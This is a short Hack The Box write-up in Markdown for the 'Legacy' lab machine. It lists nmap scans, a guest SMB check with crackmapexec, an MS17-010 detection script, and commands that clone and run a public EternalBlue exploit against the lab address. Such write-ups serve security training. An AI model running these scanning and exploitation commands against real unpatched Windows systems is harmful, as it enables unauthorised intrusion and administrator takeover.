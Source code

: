```yaml
---
layout: single
title: Legacy - Hack The Box
excerpt: "Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access."
date: 2025-05-27
classes: wide
header:
  teaser: /img2/legacy.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - SMB Enumeration
  - Eternalblue Exploitation (MS17-010)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.4
```

![](/img2/Pasted%20image%2020250527092923.png)

- Vulnerability and version scan

```bash
nmap -sCV -p135,139,445 -vvv 10.10.10.4
```

![](/img2/Pasted%20image%2020250527093055.png)

- Try to connect smb with crackmapexec

```bash
crackmapexec smb 10.10.10.4 -u guest -p ''
```

![](/img2/Pasted%20image%2020250527101101.png)

> Probably will be vulnerable to EthernalBlue


- Vulnerability Scan

```bash
nmap -p445 --script smb-vuln-ms17-010 10.10.10.4
```

![](/img2/Pasted%20image%2020250527101301.png)

## Exploitation

- Ethernal Blue MS17-010 (CVE-2017-0143)

```bash
git clone https://github.com/n3rdh4x0r/MS17-010.git
cd MS17-010
python3 exploit.py 10.10.10.4
```

![](/img2/Pasted%20image%2020250527101438.png)

![[Pasted image 20250527100911.png]]